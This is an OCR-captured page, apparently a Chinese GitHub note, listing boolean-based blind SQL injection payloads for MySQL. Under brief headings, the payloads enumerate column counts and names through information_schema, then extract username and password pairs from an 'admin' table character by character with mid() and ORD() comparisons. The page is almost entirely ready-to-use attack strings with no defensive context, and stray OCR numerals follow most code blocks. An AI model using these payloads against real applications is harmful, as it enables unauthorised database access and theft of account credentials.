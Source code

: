 **猜解表的字段的总数**

```
'or (select count(column_name) from information_schema.COLUMNS where TABLE_NAME='表名') > 5 --+
1
```

**猜解第一个字段的长度**

```
'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 0,1) = 10 --+
'or (select length(column_name) from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 10 --+ （第二个字段）
12
```

**猜解第一个字段名**

```
'or mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1) = 'i' --+
或者
'or ORD(mid((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = '表名' limit 0,1),1,1)) > 100 --+
123
```

**猜解直接猜测字段名**

```
' or (select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1) = 'username' --+
1
```

**猜解内容长度**

```
假如已经知道字段名为  id   username password
'or (select Length(concat(username,"---",password)) from admin limit 0,1) = 16  --+
12
```

**猜解内容**

```
'or mid((select concat(username,"-----",password) from admin limit 0,1),1,1) = 'a' --+
或者
'or ORD(mid((select concat(username,"-----",password) from admin limit 0,1),1,1)) > 100 --+    ASCII码猜解
123
```

**也可以直接猜测内容**

```
'or (Select concat(username,"-----",password) from admin limit 0,1 ) = 'admin-----123456'   --+
1
```

<br /> 
